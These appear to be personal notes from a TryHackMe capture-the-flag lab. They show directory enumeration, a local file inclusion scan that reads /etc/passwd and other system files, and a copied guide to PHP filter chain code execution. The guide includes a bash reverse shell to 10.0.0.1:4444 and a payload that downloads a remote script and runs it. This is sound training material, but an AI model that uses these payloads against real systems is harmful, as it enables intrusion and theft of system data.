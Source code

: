 <code>
https://tryhackme.com/r/room/cheesectfv10

┌──(kali㉿kali)-[~]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.251.14 -x php,txt,html                                                                                                      
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.251.14
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 277]
/images               (Status: 301) [Size: 313] [--> http://10.10.251.14/images/]
/index.html           (Status: 200) [Size: 1759]
/.php                 (Status: 403) [Size: 277]
/login.php            (Status: 200) [Size: 834]
/users.html           (Status: 200) [Size: 377]
/messages.html        (Status: 200) [Size: 448]
/orders.html          (Status: 200) [Size: 380]
/.html                (Status: 403) [Size: 277]
/.php                 (Status: 403) [Size: 277]
/server-status        (Status: 403) [Size: 277]
Progress: 882240 / 882244 (100.00%)
===============================================================
Finished
===============================================================
                                                                   

http://10.10.251.14/secret-script.php?file=php://filter/resource=supersecretmessageforadmin

### LFI

┌──(kali㉿kali)-[~]
└─$ ffuf -u http://10.10.251.14/secret-script.php?file=php://filter/resource=FUZZ -c -w ../kali/Documents/www/wordlists/LFI-WordList-Linux.txt -fs 0 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.251.14/secret-script.php?file=php://filter/resource=FUZZ
 :: Wordlist         : FUZZ: /home/kali/Documents/www/wordlists/LFI-WordList-Linux.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 0
________________________________________________

/etc/apache2/mods-available/deflate.conf [Status: 200, Size: 395, Words: 23, Lines: 11, Duration: 49ms]
/etc/apache2/mods-available/mime.conf [Status: 200, Size: 7676, Words: 943, Lines: 252, Duration: 49ms]
/etc/apache2/mods-available/autoindex.conf [Status: 200, Size: 3374, Words: 313, Lines: 97, Duration: 49ms]
/etc/bash.bashrc        [Status: 200, Size: 2319, Words: 399, Lines: 72, Duration: 46ms]
/etc/ca-certificates.conf.dpkg-old [Status: 200, Size: 6824, Words: 64, Lines: 168, Duration: 46ms]
/etc/ca-certificates.conf [Status: 200, Size: 7545, Words: 64, Lines: 187, Duration: 46ms]
/etc/crontab            [Status: 200, Size: 1042, Words: 181, Lines: 23, Duration: 45ms]
/etc/crypttab           [Status: 200, Size: 54, Words: 5, Lines: 2, Duration: 45ms]
/etc/debian_version     [Status: 200, Size: 13, Words: 1, Lines: 2, Duration: 45ms]
/etc/debconf.conf       [Status: 200, Size: 2969, Words: 411, Lines: 84, Duration: 46ms]
/etc/default/grub       [Status: 200, Size: 1216, Words: 142, Lines: 34, Duration: 46ms]
/etc/deluser.conf       [Status: 200, Size: 604, Words: 86, Lines: 21, Duration: 46ms]
/etc/dhcp/dhclient.conf [Status: 200, Size: 1735, Words: 168, Lines: 55, Duration: 45ms]
/etc/apache2/mods-available/dir.conf [Status: 200, Size: 157, Words: 15, Lines: 6, Duration: 586ms]
/etc/fstab              [Status: 200, Size: 658, Words: 77, Lines: 13, Duration: 352ms]
/etc/host.conf          [Status: 200, Size: 92, Words: 16, Lines: 4, Duration: 629ms]
/etc/group-             [Status: 200, Size: 822, Words: 1, Lines: 61, Duration: 630ms]
/etc/group              [Status: 200, Size: 817, Words: 1, Lines: 61, Duration: 630ms]
/etc/hosts.allow        [Status: 200, Size: 411, Words: 82, Lines: 11, Duration: 629ms]


  
http://10.10.251.14/secret-script.php?file=php://filter/resource=../../../../etc/hosts

http://10.10.251.14/secret-script.php?file=php://filter/resource=../../../../etc/passwd

comte:x:1000:1000:comte:/home/comte:/bin/bash

### reverse shell
https://exploit-notes.hdks.org/exploit/web/security-risk/php-filters-chain/
https://github.com/synacktiv/php_filter_chain_generator


python3 php_filter_chain_generator.py --chain '<?php phpinfo(); ?>'
Copied!
We only have to do is paste the above generated payload to /?page=<genrated_chain>.

Reverse Shell
First create a shell script named "revshell" in local machine.

bash -i >& /dev/tcp/10.0.0.1/4444 0>&1
Copied!
Then create a chain using a generator.
Replace the ip address with your own.

# `<?= ?>` is a shorthand for `<?php echo ~ ?>`
python3 php_filter_chain_generator.py --chain '<?= `curl -s -L 10.0.0.1/revshell|bash` ?>'
Copied!
We need to start a web server that hosts the shell script, and also start a listener for receiving the reverse connection.

# terminal 1
sudo python3 -m http.server 80

# terminal 2
nc -lvnp 4444
Copied!
Now access to /?page=<generated_chain>. We can get a shell.



</code>
